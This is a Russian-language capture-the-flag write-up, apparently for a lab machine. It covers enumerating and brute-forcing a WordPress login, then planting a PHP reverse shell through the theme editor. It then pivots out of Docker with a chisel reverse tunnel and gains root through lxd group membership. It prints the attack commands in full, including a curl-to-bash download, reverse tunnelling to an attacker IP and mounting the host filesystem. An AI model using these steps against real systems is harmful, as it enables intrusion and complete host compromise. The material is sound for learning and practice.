

# For Business Reasons

:white_check_mark:  [**Chisel_ip_and_port**](#Chisel_ip_and_port)

:white_check_mark:  [**Lxd-alpine(privesc)**](#lxd-alpine(privesc))
___

## Enumeration
Сканируем ip командой:
```
nmap -p- -sC -sV --open business.thm
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MilkCo Test/POC site &#8211; Just another WordPress site
|_http-generator: WordPress 5.4.2
```

Главная страница **business.thm**:


Мы можем заметить, что это страница wordpress. Просканируем ее с помощью wpscan, чтобы найти возможные имена пользователей.

```
wpscan --url business.thm --enumerate u
```


Мы нашли имя пользователя, попробуем сбрутить пароль этого пользователя.

```
wpscan --url business.thm --usernames sysadmin --passwords /usr/share/wordlists/rockyou.txt
```


Теперь, когда мы имеем данные от аккаунта, перейдем на страницу /wp-admin/ и залогинимся.



С помощью Theme Editor мы можем получить доступ к машине.

Перейдем в меню Appearance -> Theme Editor.


Изменим тему на Twenty Seventeen и перейдем к изменению страницы 404.php. Запишем сюда php-reverse-shell и сохраним страницу.


Запускаем слушатель и открываем наш shell(http://business.thm/wp-content/themes/twentyseventeen/404.php). Получаем доступ к машине.


Мы можем обнаружить данный скрипт /var/www/html/start_container.sh, который говорит нам о том, что мы находимся в докере.


## Pivoting
Для дальнейшего продвижения, просмотрим все сетевые адреса хоста.

```
hostname -I
```


Для того чтобы просканировать их, закинем бинарник nmap на машину при помощи curl. Просканируем все ip-адреса. Наибольший интерес для нас представляет 172.18.0.3
```
./nmap -sn 172.18.0.3/24
```


Теперь нам необходимо выяснить, какие порты открыты на данных ip-адресах. Для этого будем использовать netcat. Закинем его инарник на машину. 

Так как оболочка не стабилизирована, будем проверять ip-адрес на возможные порты следующим образом.

```
./nc -zvn 172.18.0.1 22 80
```


У нас есть порт 22 - ssh. Нам необходимо перебросить его на атакующую машину, чтобы иметь доступ к ssh, т.к. ssh нет в докере.

<a name="Chisel_ip_and_port"></a>

На атакующей машине установим chisel.
```
curl http://i.jpillora.com/chisel! | bash
```

Затем перекинем chisel в /tmp атакуемой машины.

Теперь от нас требуется выполнение двух шагов:
    
    1. Запустить chisel на атакующей машине: ./chisel server --reverse -p 6789
    2. Запустить chisel на атакуемой машине: ./chisel client 10.8.61.235:6789 R:2222:172.18.0.1:22


Теперь у нас есть доступ к требуемому ip. Подключимся по ssh.
```
ssh sysadmin@127.0.0.1 -p 2222
```


<a name="Lxd-alpine(privesc)"></a>

Просмотрим информацию о данном пользователе, командой **id**.


Мы можем видеть, что пользователь принадлежит группе lxd.

Чтобы воспользоваться этой уязвимостью, нам нужно создать образ для lxc, импортировать этот образ, а затем инициализировать его в новом контейнере.

На атакуемой машине:
```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

Перебрасываем полученный архив на атакуемую машину. Затем:
```
lxc image import ./alpine-v3.16-x86_64-20220815_2100.tar.gz --alias myimage

lxc image list

lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```


Выполнив данные действия, получаем root. Флаг мы можем найти в директории /mnt/root/root.
